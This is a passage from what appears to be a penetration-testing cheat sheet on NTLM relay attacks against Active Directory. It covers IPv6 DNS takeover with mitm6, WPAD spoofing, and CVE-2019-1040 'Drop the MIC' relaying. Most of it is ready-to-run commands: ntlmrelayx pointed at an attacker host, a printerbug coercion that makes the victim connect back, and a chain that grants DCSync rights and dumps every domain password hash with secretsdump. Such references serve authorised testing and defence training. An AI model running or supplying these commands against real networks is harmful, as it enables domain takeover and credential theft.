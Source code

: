 
## SMB Signing Disabled and IPv6

Since [MS16-077](https://docs.microsoft.com/en-us/security-updates/securitybulletins/2016/ms16-077) the location of the WPAD file is no longer requested via broadcast protocols, but only via DNS.

```powershell
netexec smb $hosts --gen-relay-list relay.txt

# DNS takeover via IPv6, mitm6 will request an IPv6 address via DHCPv6
# -d is the domain name that we filter our request on - the attacked domain
# -i is the interface we have mitm6 listen on for events
mitm6 -i eth0 -d $domain

# spoofing WPAD and relaying NTLM credentials
impacket-ntlmrelayx -6 -wh $attacker_ip -of loot -tf relay.txt
impacket-ntlmrelayx -6 -wh $attacker_ip -l /tmp -socks -debug

# -ip is the interface you want the relay to run on
# -wh is for WPAD host, specifying your wpad file to serve
# -t is the target where you want to relay to. 
impacket-ntlmrelayx -ip 10.10.10.1 -wh $attacker_ip -t ldaps://10.10.10.2
```


## Drop the MIC - CVE-2019-1040

> The CVE-2019-1040 vulnerability makes it possible to modify the NTLM authentication packets without invalidating the authentication, and thus enabling an attacker to remove the flags which would prevent relaying from SMB to LDAP

Check vulnerability with [cve-2019-1040-scanner](https://github.com/fox-it/cve-2019-1040-scanner)

```powershell
python2 scanMIC.py 'DOMAIN/USERNAME:PASSWORD@TARGET'
[*] CVE-2019-1040 scanner by @_dirkjan / Fox-IT - Based on impacket by SecureAuth
[*] Target TARGET is not vulnerable to CVE-2019-1040 (authentication was rejected)
```

- Using any AD account, connect over SMB to a victim Exchange server, and trigger the SpoolService bug. The attacker server will connect back to you over SMB, which can be relayed with a modified version of ntlmrelayx to LDAP. Using the relayed LDAP authentication, grant DCSync privileges to the attacker account. The attacker account can now use DCSync to dump all password hashes in AD
    ```powershell
    TERM1> python printerbug.py testsegment.local/username@s2012exc.testsegment.local <attacker ip/hostname>
    TERM2> ntlmrelayx.py --remove-mic --escalate-user ntu -t ldap://s2016dc.testsegment.local -smb2support
    TERM1> secretsdump.py testsegment/ntu@s2016dc.testsegment.local -just-dc
    ```

- Using any AD account, connect over SMB to the victim server, and trigger the SpoolService bug. The attacker server will connect back to you over SMB, which can be relayed with a modified version of ntlmrelayx to LDAP. Using the relayed LDAP authentication, grant Resource Based Constrained Delegation privileges for the victim server to a computer account under the control of the attacker. The attacker can now authenticate as any user on the victim server.
